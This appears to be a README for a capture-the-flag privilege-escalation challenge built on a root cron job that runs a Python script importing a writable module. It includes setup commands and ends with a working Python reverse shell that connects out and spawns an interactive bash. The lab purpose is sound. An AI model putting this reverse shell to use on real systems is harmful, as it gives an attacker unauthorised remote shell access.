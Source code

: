 # EncryptEdge RCSCTF

This repository contains details and code for the EncryptEdge RCSCTF Challenge No.3 Privilage Escalation part.

## Table of Contents
- [Introduction](#introduction)
- [Installation](#installation)
- [Usage](#usage)

## Introduction
This particular challenge is designed to showcase various Python libraries and demonstrate system administration tasks such as creating cron jobs and managing file permissions.

This challenge is based on the "Write Permissions on Imported Python Module"

# Installation
> To get started with the challenge, follow these steps:

1. Clone the repository:
    ```shell
    git clone https://github.com/your-username/EncryptEdge-RCSCTF.git
    ```

2. Install the required Python libraries:
    ```
    pip install -r requirements.txt
    ```

# Usage

## Checking Default Python Libraries
> To check the default Python libraries, run the following command:
```
python3 -c 'import sys; print("\n".join(sys.path))'
```

## Create a System-wide Cronjob
> To create a system-wide cronjob that runs every 2 minutes, edit the /etc/crontab file:

```
sudo nano /etc/crontab
```

> Add the following line to run the Python script every 2 minutes:
```
*/2 * * * * /usr/bin/python3 /home/xavir/Fishy.py
```

## Manage Access to Fishy.py
> To give only read access to Fishy.py to the user xavir, use the chmod and chown commands:

```
chown root:xavir /path/to/Fishy.py
chmod 640 /path/to/Fishy.py
```

## View System-wide Cronjob
> To view the system-wide cronjob, use the following command:

```
cat /etc/crontab
```

## Implementing a Reverse Shell in Python
```
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 9001))
dup2(s.fileno(), 0)
dup2(s.fileno(), 1)
dup2(s.fileno(), 2)
run(["/bin/bash", "-i"])
```
